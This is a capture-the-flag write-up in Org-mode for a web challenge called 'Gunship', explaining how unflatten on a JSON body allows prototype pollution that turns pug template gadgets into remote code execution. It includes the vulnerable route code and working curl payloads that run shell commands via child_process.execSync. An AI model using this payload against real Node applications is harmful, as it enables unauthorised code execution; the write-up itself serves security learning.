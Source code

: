 :PROPERTIES:
:ID:       0b30c43e-f6c7-4399-ae95-a583332112ef
:END:
#+TITLE: Gunship
#+AUTHOR: AsmArtisan256
#+DATE: 05-01-2025

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: gunship

Once again, a challenge where the website accepts user input. You have to
introduce your favorite artist's name. Right at the start, it's possible to see
that you just can't introduce *any* name:


#+DOWNLOADED: screenshot @ 2025-01-05 10:44:28
#+attr_org: :width 600px
[[file:writeup-img/2025-01-05_10-44-28_screenshot.png]]

Unless you introduce the name of one of the two artists that are part of the
aforementioned band called =Gunship=:


#+DOWNLOADED: screenshot @ 2025-01-05 10:45:58
#+attr_org: :width 600px
[[file:writeup-img/2025-01-05_10-45-58_screenshot.png]]

If you download the files, you can see the logic related to this in
=routes/index.js=, where there are three valid names: =Haigh=, =Westaway= and =Gingell=.
I don't even know where =Gingell= comes from:

#+BEGIN_SRC js
router.post('/api/submit', (req, res) => {
    const { artist } = unflatten(req.body);

    if (artist.name.includes('Haigh') || artist.name.includes('Westaway') || artist.name.includes('Gingell')) {
        return res.json({
            'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user: 'guest' })
        });
    } else {
        return res.json({
            'response': 'Please provide us with the full name of an existing member.'
        });
    }
});
#+END_SRC

Right from the get go, this web app uses a template engine called =pugjs=, but
doesn't seem really that exploitable, since it's just HTML. What's interesting
here is =unflatten=, which can be exploited because of [[https://swisskyrepo.github.io/PayloadsAllTheThings/Prototype%20Pollution/][Prototype Pollution]]. That
means I can just manipulate the =json= data sent in the =POST= request and get
results. Here is an example of a simple request when submitting the name:

#+BEGIN_SRC sh :results output
curl 'http://94.237.50.242:46641/api/submit'\
     -X POST \
     -H 'Content-Type: application/json' \
     --data-raw '{"artist.name":"Gingell"}'
#+END_SRC

#+BEGIN_SRC js
{"response":"<span>Hello guest, thank you for letting us know!</span>"}
#+END_SRC

If I add ="___proto___.json spaces": " "= to the =json= data that is sent, we can see
that the setting was applied, by looking at the spaces that were added to the
=json= result:

#+BEGIN_SRC sh :results output
curl 'http://94.237.50.242:46641/api/submit'\
     -X POST \
     -H 'Content-Type: application/json' \
     --data-raw '{"artist.name":"Gingell", "__proto__.json spaces": " "}'
#+END_SRC

#+BEGIN_SRC js
{
    "response": "<span>Hello guest, thank you for letting us know!</span>"
}
#+END_SRC

The =pugjs= GitHub repository has an interesting [[https://github.com/pugjs/pug/issues/3414][issue]] with some useful gadgets
for =Remote Code Execution=! Since they are all being done on
=Object.prototype.xxx=, that means we can manipulate the =json= that is being sent
to do the same. Let's start with executing a =ls -la= command to show the contents
of the directory and, since we know the output won't be in the request result,
let's just redirect it to the =css= file of the web application:

#+BEGIN_SRC sh :results output
curl 'http://94.237.50.242:46641/api/submit'\
     -X POST \
     -H 'Content-Type: application/json' \
     --data-raw '{"artist.name":"Gingell", "__proto__.block.type": "Text", "__proto__.block.line": "process.mainModule.require(\"child_process\").execSync(\"ls -la >> static/css/main.css\")" }'
#+END_SRC

And the results are in:


#+DOWNLOADED: screenshot @ 2025-01-05 11:05:24
#+attr_org: :width 600px
[[file:writeup-img/2025-01-05_11-05-24_screenshot.png]]

Since we appended to the =css= file, it goes to the end of it. As the image shows,
we got the result of the =ls -la= command and we can see the flag is in the same
directory. Therefore to get the flag, we just execute =cat flag= and redirect it
to the same file!


* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">05-01-2025</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT

